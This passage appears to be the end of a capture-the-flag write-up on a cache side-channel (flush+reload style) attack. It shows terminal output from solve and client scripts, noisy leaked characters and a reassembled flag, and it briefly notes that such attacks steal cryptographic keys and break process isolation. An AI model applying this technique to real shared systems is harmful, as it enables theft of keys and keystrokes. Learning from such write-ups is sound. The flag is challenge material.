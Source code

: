 ```

}



```

```
./solve 
valid chars: -ABCDEFRT_{}
flag here: DFEDACEDREDAC}CTF-BR{RDACTE_REDACTED_REDACED_REDAC}CTF-BR{REDACTED_DATED_REDACTED_REDAC}TF-B{REDACED_REACTED_EDACTED_EDAC}CTFBR{REDACTED_RDACTED_REDACED_EDA}CF-BR{REACTED_REDACTD_RDACTEDRDAC}CFBR{RDACTED_REDACED_REACTEEDACCTF-BR{EDACEDRDATED_REDACE_REDAC}CTF-R{REDATD_REDACTED_REACTD_REDAC}TFBREDACTED_RACTED_REDACTED_REDA}CBR{REDACTED_REDACTED_REACTED_DAC}CTF-B{REDAED_REDACTD_EDACTED_REDAC}C{EADCE_

```

After writing a client that will send the exploit to the server:

```
./client.py 
Hello there.
ps -aux | grep encoder
root         8  3.1  0.0   2356   732 ?        S    23:06   0:01 /home/manager/encoder
Give me how many bytes (max: 100000)
Send 'em!
Position in queue: 1
Here are the first 10000 bytes of your output:
avg cached=0x2e
avg evicted=0x126
using threshold 0xaa
valid chars: -0134BCFLRTW_bcdeilnrsw{}
flag here: LnFCTF-{Tr4sc3dence_R3bell1_wiL_CTF-B{r43ndenceR3bell10n_wiL_W1n}CTF-BR{T4nsc3dn_ell10n_wiLlW_1n}CF-BRr4ns3ndence_R3bel10n_wiLl_W1n}CTF-BR{Trnsc3ndence_R3ell0_wilW1n}CTF-R{r4nscndene_R3bell01nwiLl_CTF-BR{Tr4ns3ndence_R3bell10n_wiL_W1n}CTF-BR{Tr4nc3ndence_R3bell10n_wiLl_W1n}CTF-BR{Tr4nsc3ndeneR3bel1nl_wLilW1n}CTF-BR{Tr4nsc3ndenceR3bell10_wiLl_n}CTF-1n_l0n_wiL_W1n}CTF-R{Tr4nsc3ndence_R3bell10n_wiLl_
```

Besides some scrumbled chars, it's possible to obtain a valid flag ```CTF-BR{Tr4nc3ndence_R3bell10n_wiLl_W1n}```. If not possible, just take the valid parts of each try and join them together.
This vulnerability have been used for years to stole cryptographic keys or measuring key strokes. It's just one of many ways that microarchitecture attacks uses to break process isolation. 
There are other ways to achieve the leak using other side channel attacks such as flush+flush or evict+probe.



Esoj


   
# bibliography   
   
   https://people.freebsd.org/~lstewart/articles/cpumemory.pdf

   https://www.felixcloutier.com/x86/clflush

   https://online.tugraz.at/tug_online/voe_main2.getvolltext?pCurrPk=85809

   https://eprint.iacr.org/2013/448.pdf
   

